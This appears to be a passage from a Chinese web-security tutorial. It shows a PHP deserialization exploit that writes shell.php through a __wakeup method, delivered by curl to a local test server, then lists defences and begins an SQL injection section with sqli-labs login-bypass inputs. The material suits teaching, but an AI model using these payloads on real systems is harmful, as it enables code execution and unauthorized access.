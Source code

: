 ```php
```
构造漏洞利用的关键负载
```php
<?php
class cuc {
    var $test = 'whatever';
    function __wakeup() {
        $fp = fopen("shell.php", "w");
        fwrite($fp, $this->test);
        fclose($fp);
        echo '__wakeup';
    }
}
$payload_class = new cuc();
$payload_class->test = "<?php phpinfo(); ?>";
$payload = serialize($payload_class);
print(urlencode($payload)); // urlencode() 结果是为了方便使用 curl 时给 GET 参数赋值
```
通过传入：  
`curl http://127.0.0.1:8000/ser-2.php?test=$(php ser-2-exp.php)`  
或者  
`curl http://127.0.0.1:8888/serialize_vul.php\?test\=O%3A3%3A%22cuc%22%3A1%3A%7Bs%3A4%3A%22test%22%3Bs%3A19%3A%22%3C%3Fphp+phpinfo%28%29%3B+%3F%3E%22%3B%7D`

成功执行上述反序列化漏洞利用代码之后，会在当前脚本目录下创建的 `shell.php` 中写入 PHP 代码：`<?php phpinfo(); ?>`。由此可见，当传给 `unserialize()` 的参数可控时，我们可以通过传入一个精心构造的序列化字符串，从而控制对象内部的变量甚至是函数。

#### 反序列化漏洞的防御方案
- 将应用程序配置为不接受不可信来源的任何反序列化输入
- 仅使用具有基本数据类型的序列化函数（如 PHP 的 json_encode() 和 json_decode()）
- 如果这些措施不可行，那么在创建对象之前执行反序列化期间应强制实施约束类型，在较低特权环境（例如，临时容器）中运行反序列化，并限制与执行反序列化的服务器的网络连接
- 同时还可通过使用加密或完整性检查（例如，数字签名），防止恶意的对象创建和数据篡改操

## 后台相关漏洞
### SQL 注入
数据库把用户输入的数据全部或部分的当作 SQL 指令执行了。  
之所以会出现数据库错误的把用户输入的数据当作 SQL 指令去执行，从代码层面来看正是因为涉及到 SQL 指令构建和执行的语句中存在可以被用户输入控制的变量。  

推荐训练学习资源  
- [sqli-labs](https://github.com/c4pr1c3/sqli-labs) | [sqli-labs 国内 gitee 镜像](https://gitee.com/c4pr1c3/sqli-labs)
- [MySQL 手册](https://dev.mysql.com/doc/refman/8.0/en/sql-data-manipulation-statements.html)

#### 经典的登录绕过漏洞
sqli-labs 里的 Lesson-11 Post - Error Based - Single quotes - String

缺陷代码:
```php
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```
```sql
/* 正常登录过程 */
SELECT username, password FROM users WHERE username='admin' and password='admin' LIMIT 0,1
/* SQL 注入登录过程 */
-- 用户名字段输入随意，例如 1 密码字段输入 1' or 1 -- （注意 -- 左右两边各有一个空格）
SELECT username, password FROM users WHERE username='admin' and password='1' or 1 -- ' LIMIT 0,1
-- 用户名字段输入 admin' --  （注意 -- 左右两边各有一个空格）密码字段输入随意
SELECT username, password FROM users WHERE username='admin' -- ' and password='1' LIMIT 0,1
```
#### SQL 注入漏洞发现与利用的一般步骤
- 确认漏洞注入点存在